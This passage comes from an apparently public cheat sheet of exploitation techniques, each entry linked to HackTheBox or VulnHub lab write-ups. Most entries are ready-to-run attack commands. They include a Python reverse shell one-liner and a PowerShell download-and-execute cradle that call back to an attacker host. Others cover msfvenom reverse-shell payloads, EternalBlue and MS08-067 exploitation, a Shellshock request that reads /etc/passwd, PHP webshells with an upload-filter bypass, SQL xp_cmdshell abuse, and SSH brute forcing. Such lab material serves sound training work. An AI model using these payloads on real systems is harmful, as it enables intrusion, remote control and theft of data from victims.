#### exploit_pfsense [⇡](#exploit)  
pfsense 2.1.3 is vulnerable to command injection  
```shell
python3 43560.py --rhost <targetip> --lhost <attackerip> --lport <attackerport> --username foo --password bar

```
  
[+] https://www.exploit-db.com/exploits/43560  
[+] https://medium.com/@ranakhalil101/hack-the-box-sense-writeup-w-o-metasploit-ef064f380190  
  
---
<a name="exploit_php_acs_rfi"></a>
#### exploit_php_acs_rfi [⇡](#exploit)  
Advanced Comment System 1.0 is vulnerable to remote file inclusion and command execution attacks  
```shell
curl -v "<targetip>/internal/advanced_comment_system/admin.php?ACS_path=php://input%00" -d "<?system('whoami');?>"

```
  
[+] https://www.exploit-db.com/exploits/9623  
  
---
<a name="exploit_php_fileupload"></a>
#### exploit_php_fileupload [⇡](#exploit)  
certain poorly developed php web applications allow unrestricted file uploads that can be abused to gain interactive access on the target system  
```shell
cp /usr/share/webshells/php/php-reverse-shell.php ./rs.php
subl rs.php # point to <attackerip> and <attackerport>
nc -nlvp <attackerport>
# upload rs.php and trigger execution

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [hackme: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.hackme/writeup.pdf) | [vh#330](https://www.vulnhub.com/entry/hackme-1,330/) |  | [`exploit_php_fileupload`](https://github.com/7h3rAm/writeups#exploit_php_fileupload), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid) |
| 2. | [hackfest2016: Sedna](https://github.com/7h3rAm/writeups/blob/master/vulnhub.sedna/writeup.pdf) | [vh#181](https://www.vulnhub.com/entry/hackfest2016-sedna,181/) |  | [`exploit_php_fileupload`](https://github.com/7h3rAm/writeups#exploit_php_fileupload), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_chkrootkit`](https://github.com/7h3rAm/writeups#privesc_chkrootkit), [`privesc_cron`](https://github.com/7h3rAm/writeups#privesc_cron), [`privesc_bash_reverseshell`](https://github.com/7h3rAm/writeups#privesc_bash_reverseshell) |
| 3. | [FristiLeaks: 1.3](https://github.com/7h3rAm/writeups/blob/master/vulnhub.fristileaks1dot3/writeup.pdf) | [vh#133](https://www.vulnhub.com/entry/fristileaks-13,133/) |  | [`exploit_php_fileupload`](https://github.com/7h3rAm/writeups#exploit_php_fileupload), [`exploit_php_fileupload_bypass`](https://github.com/7h3rAm/writeups#exploit_php_fileupload_bypass), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo), [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid) |
  
  
---
<a name="exploit_php_fileupload_bypass"></a>
#### exploit_php_fileupload_bypass [⇡](#exploit)  
add gif file magicbytes `GIF891` to a php reverse shell file, rename it to rs.php.gif and upload to bypass upload filter. sometimes, a restrictve waf might still stop file upload. in that case, use a minimal command execution php file with gif magicbytes instead of a full php reverse shell  
```shell
cp /usr/share/webshells/php/php-reverse-shell.php ./rs.php.gif
subl rs.php.gif # point to <attackerip> and <attackerport> AND add GIF89a to the start of file
nc -nlvp <attackerport>
# upload rs.php.gif and trigger execution
###
echo -e 'GIF89a\n<?php $out=$_GET["cmd"]; echo `$out`; ?>' >cmd.gif
# upload and execute commands

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [IMF: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.imf/writeup.pdf) | [vh#162](https://www.vulnhub.com/entry/imf-1,162/) |  | [`exploit_php_fileupload_bypass`](https://github.com/7h3rAm/writeups#exploit_php_fileupload_bypass), [`privesc_bof`](https://github.com/7h3rAm/writeups#privesc_bof) |
| 2. | [FristiLeaks: 1.3](https://github.com/7h3rAm/writeups/blob/master/vulnhub.fristileaks1dot3/writeup.pdf) | [vh#133](https://www.vulnhub.com/entry/fristileaks-13,133/) |  | [`exploit_php_fileupload`](https://github.com/7h3rAm/writeups#exploit_php_fileupload), [`exploit_php_fileupload_bypass`](https://github.com/7h3rAm/writeups#exploit_php_fileupload_bypass), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo), [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid) |
  
  
---
<a name="exploit_php_reverseshell"></a>
#### exploit_php_reverseshell [⇡](#exploit)  
use php reverse shell code with an exploit to gain interactive access on the target system  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [LazySysAdmin: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.lazysysadmin1/writeup.pdf) | [vh#205](https://www.vulnhub.com/entry/lazysysadmin-1,205/) |  | [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_smb_nullsession`](https://github.com/7h3rAm/writeups#exploit_smb_nullsession), [`exploit_smb_web_root`](https://github.com/7h3rAm/writeups#exploit_smb_web_root), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`exploit_wordpress_template`](https://github.com/7h3rAm/writeups#exploit_wordpress_template), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo) |
| 2. | [Mr-Robot: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.mrrobot1/writeup.pdf) | [vh#151](https://www.vulnhub.com/entry/mr-robot-1,151/) |  | [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid), [`privesc_nmap`](https://github.com/7h3rAm/writeups#privesc_nmap) |
| 3. | [hackme: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.hackme/writeup.pdf) | [vh#330](https://www.vulnhub.com/entry/hackme-1,330/) |  | [`exploit_php_fileupload`](https://github.com/7h3rAm/writeups#exploit_php_fileupload), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid) |
| 4. | [hackfest2016: Sedna](https://github.com/7h3rAm/writeups/blob/master/vulnhub.sedna/writeup.pdf) | [vh#181](https://www.vulnhub.com/entry/hackfest2016-sedna,181/) |  | [`exploit_php_fileupload`](https://github.com/7h3rAm/writeups#exploit_php_fileupload), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_chkrootkit`](https://github.com/7h3rAm/writeups#privesc_chkrootkit), [`privesc_cron`](https://github.com/7h3rAm/writeups#privesc_cron), [`privesc_bash_reverseshell`](https://github.com/7h3rAm/writeups#privesc_bash_reverseshell) |
| 5. | [hackfest2016: Quaoar](https://github.com/7h3rAm/writeups/blob/master/vulnhub.quaoar/writeup.pdf) | [vh#180](https://www.vulnhub.com/entry/hackfest2016-quaoar,180/) |  | [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_defaultcreds`](https://github.com/7h3rAm/writeups#exploit_wordpress_defaultcreds), [`exploit_wordpress_plugin_hellodolly`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_hellodolly), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_mysql_creds`](https://github.com/7h3rAm/writeups#privesc_mysql_creds), [`privesc_credsreuse`](https://github.com/7h3rAm/writeups#privesc_credsreuse) |
| 6. | [BSides Vancouver: 2018 (Workshop)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.bsidesvancouver2018workshop/writeup.pdf) | [vh#231](https://www.vulnhub.com/entry/bsides-vancouver-2018-workshop,231/) |  | [`enumerate_proto_ftp`](https://github.com/7h3rAm/writeups#enumerate_proto_ftp), [`enumerate_proto_ssh`](https://github.com/7h3rAm/writeups#enumerate_proto_ssh), [`exploit_ssh_bruteforce`](https://github.com/7h3rAm/writeups#exploit_ssh_bruteforce), [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_plugin_hellodolly`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_hellodolly), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_cron`](https://github.com/7h3rAm/writeups#privesc_cron), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers) |
  
  
---
<a name="exploit_php_webshell"></a>
#### exploit_php_webshell [⇡](#exploit)  
use the php web shell to execute arbitrary commands and gain interactive access on the target system  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Misdirection: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.misdirection1/writeup.pdf) | [vh#371](https://www.vulnhub.com/entry/misdirection-1,371/) |  | [`exploit_php_webshell`](https://github.com/7h3rAm/writeups#exploit_php_webshell), [`exploit_bash_reverseshell`](https://github.com/7h3rAm/writeups#exploit_bash_reverseshell), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers), [`privesc_passwd_writable`](https://github.com/7h3rAm/writeups#privesc_passwd_writable) |
  
  
---
<a name="exploit_phptax"></a>
#### exploit_phptax [⇡](#exploit)  
the `Phptax 0.8` web application is vulnerable to remote code execution  
```shell
GET /phptax/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E HTTP/1.1
  Host: <targetip>:<targetport>
  User-Agent: Mozilla/4.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
GET /phptax/data/rce.php?cmd=uname%20-a HTTP/1.1
  Host: <targetip>:<targetport>

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Kioptrix: 2014 (#5)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.kioptrix5/writeup.pdf) | [vh#62](https://www.vulnhub.com/entry/kioptrix-2014-5,62/) |  | [`exploit_pchart`](https://github.com/7h3rAm/writeups#exploit_pchart), [`exploit_phptax`](https://github.com/7h3rAm/writeups#exploit_phptax), [`privesc_freebsd`](https://github.com/7h3rAm/writeups#privesc_freebsd) |
  
[+] https://www.exploit-db.com/exploits/25849  
  
---
<a name="exploit_prtg_sensors"></a>
#### exploit_prtg_sensors [⇡](#exploit)  
execute a reverse shell command through prtg sensor creation dialog and play it to get interactive access on the target system  
```shell
./46527.sh -u http://<targetip> -c "<prtg session cookie>"
psexec.py pentest@10.10.10.152

```
  
[+] https://www.exploit-db.com/exploits/46527  
[+] https://nvd.nist.gov/vuln/detail/CVE-2018-9276  
[+] https://hipotermia.pw/htb/netmon  
[+] https://snowscan.io/htb-writeup-netmon/#  
  
---
<a name="exploit_psexec_login"></a>
#### exploit_psexec_login [⇡](#exploit)  
If credentials for a non-administrative user are available, we can use `psexec.py` to connect and gain interactive access to the target system.  
```shell
psexec <username>@<targetip>

```
  
  
---
<a name="exploit_python_reverseshell"></a>
#### exploit_python_reverseshell [⇡](#exploit)  
use a python reverse shell to gain interactive access on the target system  
```shell
nc -nlvp 9999
http://<targetip>/shell.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attackerip>",<attackerport>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Bashed](https://github.com/7h3rAm/writeups/blob/master/htb.bashed/writeup.pdf) | [htb#118](https://app.hackthebox.eu/machines/118) |  | [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`exploit_python_reverseshell`](https://github.com/7h3rAm/writeups#exploit_python_reverseshell), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo), [`privesc_cron_rootjobs`](https://github.com/7h3rAm/writeups#privesc_cron_rootjobs) |
| 2. | [Escalate_Linux: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.escalatelinux/writeup.pdf) | [vh#323](https://www.vulnhub.com/entry/escalate_linux-1,323/) |  | [`exploit_python_reverseshell`](https://github.com/7h3rAm/writeups#exploit_python_reverseshell), [`privesc_mysql_creds`](https://github.com/7h3rAm/writeups#privesc_mysql_creds), [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid) |
  
[+] http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet  
[+] https://highon.coffee/blog/reverse-shell-cheat-sheet/#python-reverse-shell  
  
---
<a name="exploit_shellshock"></a>
#### exploit_shellshock [⇡](#exploit)  
```shell
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://<targetip>/cgi-bin/user.sh
nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/bin,cmd=ls <targetip>

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Shocker](https://github.com/7h3rAm/writeups/blob/master/htb.shocker/writeup.pdf) | [htb#108](https://app.hackthebox.eu/machines/108) |  | [`exploit_shellshock`](https://github.com/7h3rAm/writeups#exploit_shellshock), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers) |
  
[+] https://zayotic.com/posts/oscp-reference/  
[+] https://highon.coffee/blog/shellshock-pen-testers-lab-walkthrough/  
[+] https://blog.knapsy.com/blog/2014/10/07/basic-shellshock-exploitation/  
  
---
<a name="exploit_smb_ms08_067"></a>
#### exploit_smb_ms08_067 [⇡](#exploit)  
(netapi exploit) for microsoft windows xp systems with open smb ports, use the [ms08-067](https://github.com/andyacer/ms08_067) metasploit module [`windows/smb/ms08_067_netapi`]()  
```shell
scan:
  nmap -v -p 139,445 --script=smb-check-vulns --script-args=unsafe=1 <targetip>
  msfcli auxiliary/scanner/smb/ms08_067_check rhosts=<targetip> threads=100 E
manual_a:
  wget https://raw.githubusercontent.com/andyacer/ms08_067/master/ms08_067_2018.py
  msfvenom -p windows/shell_reverse_tcp LHOST=<attackerip> LPORT=<attackerport> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
  nc -nlvp <attackerport>
  python ms08_067_2018.py <targetip> <osid> <targetport>
manual_b:
  searchsploit ms08-067
  python /usr/share/exploitdb/platforms/windows/remote/7132.py <targetip> 1
msf:
  use exploit/windows/smb/ms08_067_netapi
  set RHOST <targetip>
  set LHOST <attackerip>
  show options
  exploit

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Legacy](https://github.com/7h3rAm/writeups/blob/master/htb.legacy/writeup.pdf) | [htb#2](https://app.hackthebox.eu/machines/2) |  | [`exploit_smb_ms08_067`](https://github.com/7h3rAm/writeups#exploit_smb_ms08_067) |
  
[+] https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2008/ms08-067  
[+] https://github.com/andyacer/ms08_067  
[+] https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py  
[+] https://blog.rapid7.com/2014/02/03/new-ms08-067/  
[+] https://0xdf.gitlab.io/2019/02/21/htb-legacy.html  
  
---
<a name="exploit_smb_ms17_010"></a>
#### exploit_smb_ms17_010 [⇡](#exploit)  
(eternalblue exploit) for microsoft windows system with smb v1 enbaled, use the metasploit exploit `windows/smb/ms17_010_eternalblue`  
```shell
nmap -p 445 -script smb-check-vulns -script-args=unsafe=1 <targetip>
manual:
  wget https://raw.githubusercontent.com/helviojunior/MS17-010/master/send_and_execute.py
  msfvenom -p windows/shell_reverse_tcp LHOST=<attackerip> LPORT=<attackerport> EXITFUNC=thread -f exe -a x86 --platform windows -o revshell.exe
  nc -nlvp <attackerport>
  python send_and_execute.py <targetip> revshell.exe
msf:
  use exploit/windows/smb/ms17_010_eternalblue
  set RHOST <targetip>
  set LHOST <attackerip>
  show options
  exploit

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Blue](https://github.com/7h3rAm/writeups/blob/master/htb.blue/writeup.pdf) | [htb#51](https://app.hackthebox.eu/machines/51) |  | [`exploit_smb_ms17_010`](https://github.com/7h3rAm/writeups#exploit_smb_ms17_010) |
  
[+] https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010  
[+] https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue  
[+] https://0xdf.gitlab.io/2019/02/21/htb-legacy.html  
[+] https://github.com/helviojunior/MS17-010/send_and_execute.py  
  
---
<a name="exploit_smb_nullsession"></a>
#### exploit_smb_nullsession [⇡](#exploit)  
smb null sessions leak a lot of sensitive information about the target system. it could be useful to access open shares or to get sensitive information  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [LazySysAdmin: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.lazysysadmin1/writeup.pdf) | [vh#205](https://www.vulnhub.com/entry/lazysysadmin-1,205/) |  | [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_smb_nullsession`](https://github.com/7h3rAm/writeups#exploit_smb_nullsession), [`exploit_smb_web_root`](https://github.com/7h3rAm/writeups#exploit_smb_web_root), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`exploit_wordpress_template`](https://github.com/7h3rAm/writeups#exploit_wordpress_template), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo) |
  
  
---
<a name="exploit_smb_usermap"></a>
#### exploit_smb_usermap [⇡](#exploit)  
samba 3.0.0 - 3.0.25rc3 is vulnerable to remote command execution  
```shell
nc -nlvp <attackerport>
sudo apt install python python-pip
pip install --user pysmb
git clone https://github.com/amriunix/CVE-2007-2447.git
cd CVE-2007-2447/
python usermap_script.py <targetip> 139 <attackerip> <attackerport>

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Lame](https://github.com/7h3rAm/writeups/blob/master/htb.lame/writeup.pdf) | [htb#1](https://app.hackthebox.eu/machines/1) |  | [`exploit_smb_usermap`](https://github.com/7h3rAm/writeups#exploit_smb_usermap) |
  
[+] https://nvd.nist.gov/vuln/detail/CVE-2007-2447  
[+] https://github.com/amriunix/CVE-2007-2447  
  
---
<a name="exploit_smb_web_root"></a>
#### exploit_smb_web_root [⇡](#exploit)  
smb shared directory is mapped to the web server's root directory. read files to obtain sensitive information or upload a reverse shell file native to the web server and trigger it's execution to gain interactive access on the target system  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [LazySysAdmin: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.lazysysadmin1/writeup.pdf) | [vh#205](https://www.vulnhub.com/entry/lazysysadmin-1,205/) |  | [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_smb_nullsession`](https://github.com/7h3rAm/writeups#exploit_smb_nullsession), [`exploit_smb_web_root`](https://github.com/7h3rAm/writeups#exploit_smb_web_root), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`exploit_wordpress_template`](https://github.com/7h3rAm/writeups#exploit_wordpress_template), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo) |
  
  
---
<a name="exploit_sql_login"></a>
#### exploit_sql_login [⇡](#exploit)  
login to the target system using a sql service account  
```shell
mssqlclient.py -windows-auth "<username>@<targetip>"

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Archetype](https://github.com/7h3rAm/writeups/blob/master/htb.archetype/writeup.pdf) | [htb#287](https://app.hackthebox.eu/machines/287) |  | [`enumerate_proto_smb`](https://github.com/7h3rAm/writeups#enumerate_proto_smb), [`enumerate_proto_smb_anonymous_access`](https://github.com/7h3rAm/writeups#enumerate_proto_smb_anonymous_access), [`enumerate_proto_sql`](https://github.com/7h3rAm/writeups#enumerate_proto_sql), [`enumerate_proto_sql_ssis_dtsconfig`](https://github.com/7h3rAm/writeups#enumerate_proto_sql_ssis_dtsconfig), [`exploit_sql_login`](https://github.com/7h3rAm/writeups#exploit_sql_login), [`exploit_sql_xpcmdshell`](https://github.com/7h3rAm/writeups#exploit_sql_xpcmdshell), [`enumerate_app_powershell_history`](https://github.com/7h3rAm/writeups#enumerate_app_powershell_history), [`privesc_psexec_login`](https://github.com/7h3rAm/writeups#privesc_psexec_login) |
  
  
---
<a name="exploit_sql_xpcmdshell"></a>
#### exploit_sql_xpcmdshell [⇡](#exploit)  
use the SQL xp_cmdshell method to gain command execution on the target system  
```shell
SELECT IS_SRVROLEMEMBER('sysadmin') ## check if current sql user has db sysadmin role, continue if true

EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;

xp_cmdshell "whoami"

type shell.ps1 ## create a powershell reverse shell
  xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://<attackerip>/shell.ps1\");"
python3 -m http.server 80 ## serve the reverse shell via http
ufw allow from <targetip> proto tcp to any port 80,<attackerport> ## allow incoming connection from <targetip>
nc -nlvp <attackerport> ## listen for incoming reverse shell connection

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Archetype](https://github.com/7h3rAm/writeups/blob/master/htb.archetype/writeup.pdf) | [htb#287](https://app.hackthebox.eu/machines/287) |  | [`enumerate_proto_smb`](https://github.com/7h3rAm/writeups#enumerate_proto_smb), [`enumerate_proto_smb_anonymous_access`](https://github.com/7h3rAm/writeups#enumerate_proto_smb_anonymous_access), [`enumerate_proto_sql`](https://github.com/7h3rAm/writeups#enumerate_proto_sql), [`enumerate_proto_sql_ssis_dtsconfig`](https://github.com/7h3rAm/writeups#enumerate_proto_sql_ssis_dtsconfig), [`exploit_sql_login`](https://github.com/7h3rAm/writeups#exploit_sql_login), [`exploit_sql_xpcmdshell`](https://github.com/7h3rAm/writeups#exploit_sql_xpcmdshell), [`enumerate_app_powershell_history`](https://github.com/7h3rAm/writeups#enumerate_app_powershell_history), [`privesc_psexec_login`](https://github.com/7h3rAm/writeups#privesc_psexec_login) |
  
  
---
<a name="exploit_sqli"></a>
#### exploit_sqli [⇡](#exploit)  
target system is running a webapp that's vulnerable to sql injection  
```shell
sqlmap -u "http://<targetip>:<targetport>/<vulnwebapp>/index.php" --batch --forms --dump

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [CronOS](https://github.com/7h3rAm/writeups/blob/master/htb.cronos/writeup.pdf) | [htb#11](https://app.hackthebox.eu/machines/11) |  | [`exploit_sqli`](https://github.com/7h3rAm/writeups#exploit_sqli), [`privesc_cron`](https://github.com/7h3rAm/writeups#privesc_cron) |
| 2. | [Lord Of The Root: 1.0.1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.lordoftheroot101/writeup.pdf) | [vh#129](https://www.vulnhub.com/entry/lord-of-the-root-101,129/) |  | [`exploit_sqli`](https://github.com/7h3rAm/writeups#exploit_sqli), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`privesc_kernel_overlayfs`](https://github.com/7h3rAm/writeups#privesc_kernel_overlayfs), [`privesc_mysql_root`](https://github.com/7h3rAm/writeups#privesc_mysql_root), [`privesc_mysql_udf`](https://github.com/7h3rAm/writeups#privesc_mysql_udf) |
| 3. | [Kioptrix: Level 1.3 (#4)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.kioptrix4/writeup.pdf) | [vh#25](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/) |  | [`exploit_sqli`](https://github.com/7h3rAm/writeups#exploit_sqli), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`privesc_shell_escape`](https://github.com/7h3rAm/writeups#privesc_shell_escape), [`privesc_mysql_root`](https://github.com/7h3rAm/writeups#privesc_mysql_root), [`privesc_mysql_udf`](https://github.com/7h3rAm/writeups#privesc_mysql_udf) |
| 4. | [Kioptrix: Level 1.1 (#2)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.kioptrix2/writeup.pdf) | [vh#23](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/) |  | [`exploit_sqli`](https://github.com/7h3rAm/writeups#exploit_sqli), [`exploit_cmdexec`](https://github.com/7h3rAm/writeups#exploit_cmdexec), [`privesc_kernel_ipappend`](https://github.com/7h3rAm/writeups#privesc_kernel_ipappend) |
  
  
---
<a name="exploit_ssh_authorizedkeys"></a>
#### exploit_ssh_authorizedkeys [⇡](#exploit)  
if we have access to a user's `.ssh` directory, copy our `id_rsa.pub` file to `.ssh/authorized_keys` to obtain passwordless ssh access  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Lin.Security: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.linsecurity1/writeup.pdf) | [vh#244](https://www.vulnhub.com/entry/linsecurity-1,244/) |  | [`exploit_nfs_rw`](https://github.com/7h3rAm/writeups#exploit_nfs_rw), [`exploit_ssh_authorizedkeys`](https://github.com/7h3rAm/writeups#exploit_ssh_authorizedkeys), [`privesc_strace_setuid`](https://github.com/7h3rAm/writeups#privesc_strace_setuid), [`privesc_docker_group`](https://github.com/7h3rAm/writeups#privesc_docker_group) |
| 2. | [HackLAB: Vulnix](https://github.com/7h3rAm/writeups/blob/master/vulnhub.vulnix/writeup.pdf) | [vh#48](https://www.vulnhub.com/entry/hacklab-vulnix,48/) |  | [`exploit_nfs_rw`](https://github.com/7h3rAm/writeups#exploit_nfs_rw), [`exploit_ssh_authorizedkeys`](https://github.com/7h3rAm/writeups#exploit_ssh_authorizedkeys), [`privesc_nfs_norootsquash`](https://github.com/7h3rAm/writeups#privesc_nfs_norootsquash), [`privesc_ssh_authorizedkeys`](https://github.com/7h3rAm/writeups#privesc_ssh_authorizedkeys) |
  
  
---
<a name="exploit_ssh_bruteforce"></a>
#### exploit_ssh_bruteforce [⇡](#exploit)  
use hydra to bruteforce ssh password for a know user  
```shell
hydra -l anne -P "/usr/share/wordlists/rockyou.txt" -e nsr -s 22 ssh://<targetip>

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [BSides Vancouver: 2018 (Workshop)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.bsidesvancouver2018workshop/writeup.pdf) | [vh#231](https://www.vulnhub.com/entry/bsides-vancouver-2018-workshop,231/) |  | [`enumerate_proto_ftp`](https://github.com/7h3rAm/writeups#enumerate_proto_ftp), [`enumerate_proto_ssh`](https://github.com/7h3rAm/writeups#enumerate_proto_ssh), [`exploit_ssh_bruteforce`](https://github.com/7h3rAm/writeups#exploit_ssh_bruteforce), [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_plugin_hellodolly`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_hellodolly), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_cron`](https://github.com/7h3rAm/writeups#privesc_cron), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers) |
  
  
---
<a name="exploit_ssh_privatekeys"></a>
#### exploit_ssh_privatekeys [⇡](#exploit)  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [InfoSec Prep: OSCP](https://github.com/7h3rAm/writeups/blob/master/vulnhub.infosecpreposcp/writeup.pdf) | [vh#508](https://www.vulnhub.com/entry/infosec-prep-oscp,508/) |  | [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`exploit_ssh_privatekeys`](https://github.com/7h3rAm/writeups#exploit_ssh_privatekeys), [`privesc_lxc_bash`](https://github.com/7h3rAm/writeups#privesc_lxc_bash) |
  
  
---
<a name="exploit_ssl_heartbleed"></a>
#### exploit_ssl_heartbleed [⇡](#exploit)  
use nmap nse script to confirm heartbleed vulnerability and then sensepost exploit to dump memory from target system  
```shell
nmap --script=ssl-heartbleed -p <targetport> <targetip>
python $HOME/toolbox/scripts/heartbleed-poc/heartbleed-poc.py -n10 -f dump.bin <targetip> -p <targetport>
strings dump.bin

```
  
[+] https://github.com/sensepost/heartbleed-poc  
  
---
<a name="exploit_wordpress_defaultcreds"></a>
#### exploit_wordpress_defaultcreds [⇡](#exploit)  
target system has wordpress configured with default credentials `admin/admin`  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [hackfest2016: Quaoar](https://github.com/7h3rAm/writeups/blob/master/vulnhub.quaoar/writeup.pdf) | [vh#180](https://www.vulnhub.com/entry/hackfest2016-quaoar,180/) |  | [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_defaultcreds`](https://github.com/7h3rAm/writeups#exploit_wordpress_defaultcreds), [`exploit_wordpress_plugin_hellodolly`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_hellodolly), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_mysql_creds`](https://github.com/7h3rAm/writeups#privesc_mysql_creds), [`privesc_credsreuse`](https://github.com/7h3rAm/writeups#privesc_credsreuse) |
  
  
---
<a name="exploit_wordpress_plugin"></a>
#### exploit_wordpress_plugin [⇡](#exploit)  
